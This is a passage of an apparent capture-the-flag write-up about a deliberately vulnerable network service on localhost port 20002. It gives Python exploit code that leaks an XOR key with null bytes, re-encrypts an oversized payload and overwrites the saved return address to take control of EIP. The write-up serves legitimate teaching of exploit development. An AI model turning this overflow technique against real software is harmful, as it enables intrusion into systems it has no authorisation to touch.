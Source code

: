 {% highlight python %}
from struct import pack

LEN=0x20000+0xf

PAYLOAD='E'+pack('I', LEN)+'\xcc'*LEN+'Q'

print PAYLOAD
{% endhighlight %}

**Note: We have to send 'Q' to the application, or else it will exit
without returning using the saved return-address**

We can get the key the program uses by sending 128 nullbytes & saving
the returned key, (key xor 0 = key.)

Once we have the key, if we have a equivalent encryption-algorithm on
our side, we can produce and send data that will be decrypted as a
payload. 

### Control over EIP!

{% highlight python %}
# -*- coding: utf-8 -*-
import socket, time
from struct import pack, unpack

OVERFLOW=0x14
OLEN=0x20000+OVERFLOW
LEN=128
ADDR=pack('I',0xdeadbeef)
PAYLOAD='E'+pack('I', LEN)+"\x00"*LEN
KEYBUF=[]

def cipher(message, length):
    global KEYBUF
    cipherd = []
    for i in xrange(0, length, 4):
        cipherd.append(unpack('I', message[i:i+4])[0]^KEYBUF[(i/4)%32])
    return cipherd

def main():
    global OLEN, LEN, PAYLOAD, ADDR, KEYBUF
    s = socket.create_connection(("127.0.0.1", 20002))
    s.sendall(PAYLOAD)

    # flush some garbage down the toiler (177 ascii + 4 size)
    s.recv(181, socket.MSG_WAITALL)

    key=s.recv(128, socket.MSG_WAITALL)
    KEYBUF=[unpack('I',key[i:i+4])[0] for i in range(0, 128, 4)]

    # Create a ciphered block of payload
    ENCRYPTED_PAYLOAD='E'+pack('I', OLEN)
    part=''.join(pack('I', x) for x in cipher(ADDR*32, len(ADDR*32)))
    ENCRYPTED_PAYLOAD+=part*1024+part[:OVERFLOW]

    s.sendall(ENCRYPTED_PAYLOAD+"Q")
    s.close()

if __name__ == "__main__":
    main()
{% endhighlight %}
